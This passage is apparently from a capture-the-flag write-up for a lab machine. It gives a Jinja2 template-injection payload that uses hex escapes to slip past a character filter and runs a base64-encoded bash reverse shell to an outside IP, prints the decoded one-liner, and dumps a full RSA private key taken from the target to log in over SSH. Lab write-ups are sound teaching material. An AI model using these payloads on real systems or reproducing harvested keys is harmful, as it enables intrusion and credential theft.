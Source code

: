 which blocks the following chars: `' _ {{ }} . if` so we need to bypass that.

Have a long read on https://gusralph.info/jinja2-ssti-research/ on how to avoid WAF detection to come up with:

```
{% with a = request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("echo -n YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4zMS8xMzM3IDA+JjE= | base64 -d | bash")["read"]() %} a {% endwith %}
```

Where the base64 encrypted string is our reverse shell payload:

```
bash -i >& /dev/tcp/10.10.14.31/1337 0>&1
```

We are now logged in as chiv@spider and can claim the user.txt

## Root

For easier access we can use the id_rsa file under /home/chiv/.ssh/ to connect via ssh to the machine:

```
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAmGvQ3kClVX7pOTDIdNTsQ5EzQl+ZLbpRwDgicM4RuWDvDqjV
gjWRBF5B75h/aXjIwUnMXA7XimrfoudDzjynegpGDZL2LHLsVnTkYwDq+o/MnkpS
U7tVc2i/LtGvrobrzNRFX8taAOQ561iH9xnR2pPGwHSF1/rHQqaikl9t85ESdrp9
MI+JsgXF4qwdo/zrgxGdcOa7zq6zlnwYlY2zPZZjHYxrrwbJiD7H2pQNiegBQgu7
BLRlsGclItrZB+p4w6pi0ak8NcoKVdeOLpQq0i58vXUCGqtp9iRA0UGv3xmHakM2
VTZrVb7Q0g5DGbEXcIW9oowFXD2ufo2WPXym0QIDAQABAoIBAH4cNqStOB6U8sKu
6ixAP3toF9FC56o+DoXL7DMJTQDkgubOKlmhmGrU0hk7Q7Awj2nddYh1f0C3THGs
hx2MccU32t5ASg5cx86AyLZhfAn0EIinVZaR2RG0CPrj40ezukWvG/c2eTFjo8hl
Z5m7czY2LqvtvRAGHfe3h6sz6fUrPAkwLTl6FCnXL1kCEUIpKaq5wKS1xDHma3Pc
XVQU8a7FwiqCiRRI+GqJMY0+uq8/iao20jF+aChGu2cAP78KAyQU4NIsKNnewIrq
54dWOw8lwOXp2ndmo3FdOfjm1SMNYtB5yvPR9enbu3wkX94fC/NS9OqLLMzZfYFy
f0EMoUECgYEAxuNi/9sNNJ6UaTlZTsn6Z8X/i4AKVFgUGw4sYzswWPC4oJTDDB62
nKr2o33or9dTVdWki1jI41hJCczx2gRqCGtu0yO3JaCNY5bCA338YymdVkphR9TL
j0UOJ1vHU06RFuD28orK+w0b+gVanQIiz/o57xZ1sVNaNOyJUlsenh8CgYEAxDCO
JjFKq+0+Byaimo8aGjFiPQFMT2fmOO1+/WokN+mmKLyVdh4W22rVV4v0hn937EPW
K1Oc0/hDtSSHSwI/PSN4C2DVyOahrDcPkArfOmBF1ozcR9OBAJME0rnWJm6uB7Lv
hm1Ll0gGJZ/oeBPIssqG1srvUNL/+sPfP3x8PQ8CgYEAqsuqwL2EYaOtH4+4OgkJ
mQRXp5yVQklBOtq5E55IrphKdNxLg6T8fR30IAKISDlJv3RwkZn1Kgcu8dOl/eu8
gu5/haIuLYnq4ZMdmZIfo6ihDPFjCSScirRqqzINwmS+BD+80hyOo3lmhRcD8cFb
0+62wbMv7s/9r2VRp//IE1ECgYAHf7efPBkXkzzgtxhWAgxEXgjcPhV1n4oMOP+2
nfz+ah7gxbyMxD+paV74NrBFB9BEpp8kDtEaxQ2Jefj15AMYyidHgA8L28zoMT6W
CeRYbd+dgMrWr/3pULVJfLLzyx05zBwdrkXKZYVeoMsY8+Ci/NzEjwMwuq/wHNaG
rbJt/wKBgQCTNzPkU50s1Ad0J3kmCtYo/iZN62poifJI5hpuWgLpWSEsD05L09yO
TTppoBhfUJqKnpa6eCPd+4iltr2JT4rwY4EKG0fjWWrMzWaK7GnW45WFtCBCJIf6
IleM+8qziZ8YcxqeKNdpcTZkl2VleDsZpkFGib0NhKaDN9ugOgpRXw==
-----END RSA PRIVATE KEY-----

```

